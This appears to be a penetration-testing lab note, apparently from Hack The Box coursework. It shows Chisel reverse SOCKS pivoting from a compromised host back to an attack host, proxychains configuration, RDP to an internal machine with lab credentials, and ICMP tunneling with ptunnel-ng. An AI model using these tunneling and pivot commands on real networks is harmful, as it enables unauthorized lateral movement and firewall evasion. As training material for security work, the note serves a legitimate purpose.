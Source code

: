 ## **Chisel Reverse Pivot**

In previous option we set pivot host (ubuntu) as out chisel server, listening on port 1234. What if there is firewall rules restrict inbound connections to our compromised target.

In such case we will use this reverse option.

```
dollarboysushil@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
2022/05/30 10:19:16 server: Reverse tunnelling enabled
2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
```

when server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed.

 The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

### **Connecting the Chisel Client to our Attack Host**

```
ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
2022/05/30 14:19:29 client: Handshaking...
2022/05/30 14:19:30 client: Sending config
2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
2022/05/30 14:19:30 client: tun: SSH connected
```

### **Editing & Confirming proxychains.conf**

```
dollarboysushil@htb[/htb]$ tail -f /etc/proxychains.conf 
[ProxyList]
# add proxy here ...
# socks4    127.0.0.1 9050
socks5 127.0.0.1 1080
```

```bash
dollarboysushil@htb[/htb]**$** proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
```

`If we get error we can try different server`

## **ICMP Tunneling with SOCKS**

ICMP tunneling encapsulates your traffic within `ICMP packets` containing `echo requests` and `responses`. 

This method will only work if ping response are permitted within a firewalled network.

We will use the [ptunnel-ng](https://github.com/utoni/ptunnel-ng) tool to create a tunnel between our Ubuntu server and our attack host. Once a tunnel is created, we will be able to proxy our traffic through the `ptunnel-ng client`. We can start the `ptunnel-ng server` on the target pivot host. Let's start by setting up ptunnel-ng.


[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Forwarding incoming ping packets over TCP.
[inf]: Ping proxy is listening in privileged mode.
[inf]: Dropping privileges now.
[inf]: Starting ptunnel-ng 1.42.
[inf]: (c) 2004-2011 Daniel Stoedle, <daniels@cs.uit.no>
[inf]: (c) 2017-2019 Toni Uhlig,     <matzeton@googlemail.com>
[inf]: Security features by Sebastien Raveau, <sebastien.raveau@epita.fr>
[inf]: Relaying packets from incoming TCP streams.
